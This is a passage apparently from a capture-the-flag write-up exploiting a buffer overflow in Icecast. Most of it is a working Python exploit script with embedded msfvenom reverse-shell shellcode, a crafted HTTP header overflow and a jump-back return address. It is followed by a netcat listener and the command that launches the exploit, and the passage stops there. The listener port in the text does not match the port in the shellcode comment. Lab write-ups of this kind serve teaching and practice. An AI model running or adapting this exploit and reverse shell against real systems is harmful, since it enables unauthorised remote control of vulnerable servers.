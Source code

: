 host = sys.argv[1] # Receive IP from user
port = int(sys.argv[2]) # Receive Port from user

# Replace with own shellcode here
# msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.92.128 LPORT=443 -f python -b '\x00\x0a\x0d'

buf =  ""
buf += "\xb8\x24\x7b\xaa\x27\xd9\xca\xd9\x74\x24\xf4\x5b\x33"
buf += "\xc9\xb1\x52\x83\xc3\x04\x31\x43\x0e\x03\x67\x75\x48"
buf += "\xd2\x9b\x61\x0e\x1d\x63\x72\x6f\x97\x86\x43\xaf\xc3"
buf += "\xc3\xf4\x1f\x87\x81\xf8\xd4\xc5\x31\x8a\x99\xc1\x36"
buf += "\x3b\x17\x34\x79\xbc\x04\x04\x18\x3e\x57\x59\xfa\x7f"
buf += "\x98\xac\xfb\xb8\xc5\x5d\xa9\x11\x81\xf0\x5d\x15\xdf"
buf += "\xc8\xd6\x65\xf1\x48\x0b\x3d\xf0\x79\x9a\x35\xab\x59"
buf += "\x1d\x99\xc7\xd3\x05\xfe\xe2\xaa\xbe\x34\x98\x2c\x16"
buf += "\x05\x61\x82\x57\xa9\x90\xda\x90\x0e\x4b\xa9\xe8\x6c"
buf += "\xf6\xaa\x2f\x0e\x2c\x3e\xab\xa8\xa7\x98\x17\x48\x6b"
buf += "\x7e\xdc\x46\xc0\xf4\xba\x4a\xd7\xd9\xb1\x77\x5c\xdc"
buf += "\x15\xfe\x26\xfb\xb1\x5a\xfc\x62\xe0\x06\x53\x9a\xf2"
buf += "\xe8\x0c\x3e\x79\x04\x58\x33\x20\x41\xad\x7e\xda\x91"
buf += "\xb9\x09\xa9\xa3\x66\xa2\x25\x88\xef\x6c\xb2\xef\xc5"
buf += "\xc9\x2c\x0e\xe6\x29\x65\xd5\xb2\x79\x1d\xfc\xba\x11"
buf += "\xdd\x01\x6f\xb5\x8d\xad\xc0\x76\x7d\x0e\xb1\x1e\x97"
buf += "\x81\xee\x3f\x98\x4b\x87\xaa\x63\x1c\xa2\x2e\x79\xe4"
buf += "\xda\x2c\x7d\x15\xbf\xb8\x9b\x7f\xaf\xec\x34\xe8\x56"
buf += "\xb5\xce\x89\x97\x63\xab\x8a\x1c\x80\x4c\x44\xd5\xed"
buf += "\x5e\x31\x15\xb8\x3c\x94\x2a\x16\x28\x7a\xb8\xfd\xa8"
buf += "\xf5\xa1\xa9\xff\x52\x17\xa0\x95\x4e\x0e\x1a\x8b\x92"
buf += "\xd6\x65\x0f\x49\x2b\x6b\x8e\x1c\x17\x4f\x80\xd8\x98"
buf += "\xcb\xf4\xb4\xce\x85\xa2\x72\xb9\x67\x1c\x2d\x16\x2e"
buf += "\xc8\xa8\x54\xf1\x8e\xb4\xb0\x87\x6e\x04\x6d\xde\x91"
buf += "\xa9\xf9\xd6\xea\xd7\x99\x19\x21\x5c\xa9\x53\x6b\xf5"
buf += "\x22\x3a\xfe\x47\x2f\xbd\xd5\x84\x56\x3e\xdf\x74\xad"
buf += "\x5e\xaa\x71\xe9\xd8\x47\x08\x62\x8d\x67\xbf\x83\x84"

evul = "\xeb\x0c" + " / HTTP/1.1 " + buf + "\r\n" + "Accept: text/html\r\n"*31
evul += "\xff\x64\x24\x04" + "\r\n\r\n"  # jmp [esp+4] 

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)	# Declare a TCP socket
client.connect((host,port))                               #Connect to TCP socket
client.sendall(evul.encode('latin-1'))	                                # Send buffer overflow
client.close()

print("\nDone!")
```

At this stage it's time to set up our netcat listener:

```
nc -lvnp 420
listening on [any] 420 ...
```

And now we run the exploit:

```
python3 icecast.py 10.10.170.34 8000
